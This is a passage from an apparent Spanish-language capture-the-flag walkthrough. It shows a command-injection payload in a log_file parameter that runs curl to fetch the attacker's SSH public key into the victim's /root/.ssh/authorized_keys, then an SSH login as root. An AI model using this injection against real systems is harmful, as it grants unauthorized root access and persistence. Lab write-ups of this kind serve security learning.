 A continuación, disponibilizamos  el archivo de clave pública id_rsa.pub en un servidor web con python en nuestro host de ataque:

```bash
python3 -m http.server 80
```

A continuación usando curl o wget, descargarmos el archivo .pub en el directorio /root/.ssh/authorized_keys

```
log_file=/etc/passwd; curl 10.10.14.6/id_rsa.pub -o /root/.ssh/authorized_keys #&analyze_log=
```


![[Pasted image 20250512154620.png]]

Si todo ha ido bien, deberíamos poder conectarnos como root al host víctima sin indicar contraseña:

```bash
ssh root@10.10.11.28
```

![[Pasted image 20250512155317.png]]